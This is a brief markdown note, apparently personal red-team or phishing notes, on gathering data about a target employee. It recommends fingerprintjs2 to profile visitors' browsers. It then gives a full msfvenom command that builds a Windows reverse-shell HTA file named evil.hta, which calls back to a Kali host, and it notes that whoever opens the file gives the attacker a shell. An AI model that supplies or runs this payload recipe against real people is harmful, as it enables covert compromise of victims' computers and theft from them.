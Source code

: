 # to get relevant data on employee

# fingerprinting
use on github fingerprintjs2

will generate you information about installed plugins, browser version, locales, etc. when the client access that page

# generate script to compromise shell via IE
* Generates code for exploit: ``sudo msfvenom -p windows/shell_reverse_tcp LHOST={kali_ip} LPORT=4444 -f hta-psh -o /var/html/evil.hta``
* In case someone open that file => reverse shell is established